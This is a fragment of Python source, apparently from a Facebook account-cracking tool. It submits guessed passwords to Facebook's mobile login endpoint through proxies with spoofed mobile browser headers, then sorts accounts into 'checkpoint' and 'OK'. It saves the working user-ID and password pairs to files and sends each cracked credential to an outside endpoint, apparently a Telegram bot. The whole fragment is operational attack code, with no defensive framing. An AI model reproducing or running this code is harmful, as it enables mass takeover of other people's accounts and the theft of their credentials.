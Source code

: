 			p = ses.get('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)

			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}

			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])

			koki+=' m_pixel_ratio=2.625; wd=412x756'

			heade={"Host":"p.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://p.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://p.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}

			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)

			if "checkpoint" in po.cookies.get_dict().keys():

				print(f'\r{P}{K} [{time.strftime("%H:%M")}-CP] {idf} │ {pw} {P}')

				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

				akun.append(idf+'|'+pw)

				cp+=1

				break

			elif "c_user" in ses.cookies.get_dict().keys():

				ok+=1

				coki=po.cookies.get_dict()

				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

				print(f'\r{P}{H} [{time.strftime("%H:%M")}-OK] {idf} │ {pw} {P}')

				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')

				requests.get(""+tid+"&text="+uname+"\n[ "+idf+' | '+pw+ " ]")

				ok.append(wrt)

				break

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(31)

